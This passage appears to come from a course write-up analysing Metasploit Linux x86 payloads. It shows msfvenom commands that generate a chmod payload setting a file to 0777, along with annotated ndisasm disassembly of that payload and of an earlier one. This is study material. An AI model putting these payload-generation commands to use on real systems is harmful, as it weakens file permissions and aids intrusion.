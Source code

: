 ```
00000000  59                pop ecx ; store user and pass in ecx
00000001  8B51FC            mov edx,[ecx-0x4]
00000004  6A04              push byte +0x4 ; arg for write
00000006  58                pop eax ; put syscall number 4 in eax
00000007  CD80              int 0x80 ; call syscall
00000009  6A01              push byte +0x1 ; arg for exit
0000000B  58                pop eax; put syscall number 1 in eax
0000000C  CD80              int 0x80

```




#### Payload 2

Next up is the chmod payload, we will use libemu for this one.
Libemu will have to be tracked down and installed, you may run into some issues that are easily solved.
As before we list the options this time for chmod
``msfvenom --list-options -p linux/x86/chmod``
![chmod](/assets/images/SLAE_5/5.JPG)

Once Libemu is setup we run the below commands to create a visual graph on payload flow:

`msfvenom -p linux/x86/chmod FILE=/root/test.txt MODE=0777 | sctest -vvv -Ss 5000 -G chmod.dot`
`dot chmod.dot -T png -o chmod.png`

Unfortunatly Libemu really did not like this payload, as such there wascode misisng and the graph simply would not generate, so we move to disasm instead (good thing we have been exposed to multiple tools right?)

`msfvenom -p linux/x86/chmod FILE=/home/student/Desktop/SLAE/ASSIGNMENTS/Ass_5/chmodtest.txt MODE=0777 | ndisasm -u -`

So looking at the code, we can tell initially that syscall `0xf` is pushed on, which is `#define __NR_chmod		 15`, and again the opcode representation of the "garbage" instructions is actually a payload parameter.
It looks like only the chmod and exit syscalls are called here. With the file argument being pushed on by calling code at offset 45, and then being popped into ebx.

Finally our second arg of 777 is pushed on with `push dword 0x1ff`, and chmod is called thus completing the attack before an exit.

```
00000000  99                cdq
00000001  6A0F              push byte +0xf ; push sycall 15 on (chmod)
00000003  58                pop eax ; pop the syscall into eax
00000004  52                push edx
00000005  E83B000000        call 0x45 ; call code at 45
0000000A  2F                das
0000000B  686F6D652F        push dword 0x2f656d6f
00000010  7374              jnc 0x86
00000012  7564              jnz 0x78
00000014  656E              gs outsb
00000016  742F              jz 0x47
00000018  44                inc esp
00000019  65736B            gs jnc 0x87
0000001C  746F              jz 0x8d
0000001E  702F              jo 0x4f
00000020  53                push ebx
```